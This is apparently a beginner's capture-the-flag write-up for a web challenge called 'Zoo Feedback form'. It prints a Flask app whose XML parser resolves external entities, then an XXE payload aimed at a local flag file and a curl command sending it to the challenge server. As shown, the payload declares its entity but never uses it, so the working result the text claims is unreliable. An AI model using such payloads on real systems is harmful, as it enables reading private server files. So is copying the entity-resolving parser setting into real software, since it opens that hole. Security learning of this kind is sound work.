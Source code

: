 # Zoo Feedback form!

Another beginner web exploitation problem. Here we are given the web link and python script of the web

```python
from flask import Flask, request, render_template_string, render_template
from lxml import etree

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
we can send feedbacks that will never be read to the website and will try to exploit and get the flag file inside the same directory as the python script.

The first thing that grabbed my attention was it's heavy reliance on XML (ofc since its a feedback form).

After some research i found this XXE (XML External Entity) injection where you send malicious XML commands into the web.

```xml
<!DOCTYPE message [
  <!ENTITY xxe SYSTEM "file:///path/to/flag.txt">
]>
<message>
  <feedback>I am penetrating into your feedback web</feedback>
</message>
```
this is the payload i used. However, when i tried to send the feedback into the website box i kept getting this error.
```Error parsing XML: StartTag: invalid element name, line 3, column 28 (<string>, line 3)```

Somehow there was these invisible spaces BEFORE my feedback...

i fixed the problem by sending packages via ```curl``` in terminal.

```sh curl -X POST -H "Content-Type: application/xml" --data-binary @payload.xml https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/```

(it took me a while)

and there the terminal will output the flag!
